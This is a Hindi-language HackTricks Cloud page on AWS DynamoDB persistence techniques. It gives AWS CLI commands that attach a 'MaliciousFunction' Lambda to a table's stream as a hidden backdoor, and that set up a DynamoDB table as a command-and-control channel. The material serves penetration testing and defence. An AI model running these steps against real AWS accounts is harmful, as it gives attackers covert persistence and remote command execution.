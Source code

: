 # AWS - डाइनामोडीबी परिस्थिति

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

### डाइनामोडीबी

अधिक जानकारी के लिए इसे देखें:

{% content-ref url="../aws-services/aws-databases/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-databases/aws-dynamodb-enum.md)
{% endcontent-ref %}

### डाइनामोडीबी ट्रिगर्स के साथ लैम्बडा बैकडोर

डाइनामोडीबी ट्रिगर्स का उपयोग करके, एक हमलावर एक टेबल के साथ एक दुष्ट लैम्बडा फंक्शन को जोड़कर एक **छिपी हुई बैकडोर** बना सकता है। जब एक आइटम जोड़ा, संशोधित या हटाया जाता है, तो लैम्बडा फंक्शन को ट्रिगर किया जा सकता है, जिससे हमलावर को AWS खाते में अनियमित कोड को निष्पादित करने की अनुमति मिलती है।

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

स्थिरता बनाए रखने के लिए, हमलावर डाइनामोडीबी टेबल में आइटम बना सकता है या संशोधित कर सकता है, जो दुर्भाग्यपूर्ण लैम्बडा फंक्शन को ट्रिगर करेगा। इससे हमलावर को लैम्बडा फंक्शन के सीधे संपर्क के बिना AWS खाते में कोड को निष्पादित करने की अनुमति मिलती है।

### डाइनामोडीबी को सी2 चैनल के रूप में उपयोग करना

हमलावर एक डाइनामोडीबी टेबल को एक **कमांड और नियंत्रण (सी2) चैनल** के रूप में उपयोग कर सकता है, जिसमें कमांड शामिल होने वाले आइटम बनाए जाते हैं और संक्रमित इंस्टेंसेज या लैम्बडा फंक्शन का उपयोग करके इन कमांड को प्राप्त और निष्पादित किया जाता है।
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
संक्रमित इंस्टेंस या लैम्बडा फंक्शन नए कमांड के लिए सी2 टेबल की नियमित जांच कर सकते हैं, उन्हें निष्पादित कर सकते हैं और वैकल्पिक रूप से परिणामों की रिपोर्ट टेबल में वापस भेज सकते हैं। इससे हमलावर वस्तुओं पर स्थायित्व और नियंत्रण बनाए रखने की अनुमति मिलती है।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे ट्विटर पर फॉलो करें** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
